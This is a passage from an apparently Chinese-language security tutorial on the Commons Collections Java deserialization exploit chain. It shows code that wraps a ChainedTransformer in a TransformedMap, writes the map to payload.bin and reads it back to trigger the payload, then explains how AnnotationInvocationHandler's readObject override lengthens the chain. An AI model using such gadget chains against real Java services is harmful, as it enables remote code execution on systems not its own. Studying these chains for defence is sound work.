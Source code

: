 ```java
        //把构造好的数组封装成ChainedTransformer
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        Map innerMap=new HashMap();
        innerMap.put("value","value");

        Map map=TransformedMap.decorate(innerMap,null,chainedTransformer);

        //序列化map
        FileOutputStream fileOutputStream=new FileOutputStream("payload.bin");
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(map);

        FileInputStream fileInputStream=new FileInputStream("payload.bin");
        ObjectInputStream objectInputStream=new ObjectInputStream(fileInputStream);
        //反序列化
        Map UnserializedMap=(Map)objectInputStream.readObject();

        //只要修改Map的值就会触发转换链，执行payload

        //向Map中添加新值
        //UnserializedMap.put("123","123");
        //修改键值
        Map.Entry entry  = (Map.Entry) UnserializedMap.entrySet().iterator().next();
        entry.setValue("foobar");

    }
}
```

**目前存在的问题？**

现在触发条件变成了经过迭代器迭代调用`setValue`函数修改`Map`值来触发漏洞，

但是仍然依赖于调用`setValue()`，需要进一步延长利用链，在调用readObject()方法时直接触发payload

AnnotationInvocationHandler的readObject复写点
-----------------------------------------

**进一步延长利用链**

java在反序列化中会优先调用复写的readObject，那么如果某个可以被序列化中的类重写了readObject()方法，并且在readObject()方法中存在修改Map类型变量键值的操作，同时Map类型变量可控的话，就可以实现一步到位，一调用readObject()就触发payload。

概括一下目标类需要满足的三个条件

1. 存在复写的readObject()方法
2. readObject()方法中存在修改Map类型变量键值的操作
3. Map类型变量可控

这个类就是`sun.reflect.annotation.AnnotationInvocationHandler`

`AnnotationInvocationHandler`构造函数

可以看到有一个可控的成员变量`memberValues`，接收传入的Map参数，
